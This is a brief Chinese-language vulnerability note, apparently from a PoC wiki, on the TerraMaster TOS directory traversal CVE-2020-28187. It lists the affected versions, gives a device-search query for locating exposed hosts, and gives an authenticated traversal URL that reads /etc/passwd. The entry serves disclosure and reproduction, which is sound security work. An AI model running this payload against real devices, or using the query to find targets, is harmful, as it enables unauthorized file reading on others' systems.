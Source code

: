 # TerraMaster TOS 后台任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.06</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登陆后访问，验证漏洞的POC为

```plain
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tm-8.png)
